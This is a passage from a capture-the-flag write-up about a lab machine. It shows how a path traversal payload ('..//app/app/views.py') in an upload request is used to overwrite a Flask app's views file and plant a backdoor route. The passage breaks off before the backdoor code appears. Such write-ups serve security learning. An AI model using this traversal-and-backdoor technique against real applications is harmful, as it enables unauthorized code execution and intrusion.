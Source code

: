 **We successfully exploited the path traversal vulnerability!**

But how do we gain an initial foothold on the target machine?

# Initial Foothold

Hmm... How about we let ourself in by **adding a backdoor in `/app/app/views.py`**? :D

Since we knew the absolute path of the target's Flask application **(`/app/app/`)** by viewing source codes, we can send a POST request to `/upcloud` with the path traversal payload, and append a backdoored route to `/app/app/views.py`.

**To do so, I'll:**

- Intercept a POST request in `/upcloud`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/OpenSource/images/a10.png)

- Change the POST request parameter's value:

```
filename="..//app/app/views.py"
```

- Change the POST request `Content-Type`:

```
Content-Type: text/x-python
```

- Append a backdoor route into `/app/app/views.py`, and forward that POST request:

```py
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/')
def index():
    return render_template('index.html')


@app.route('/download')
def download():
```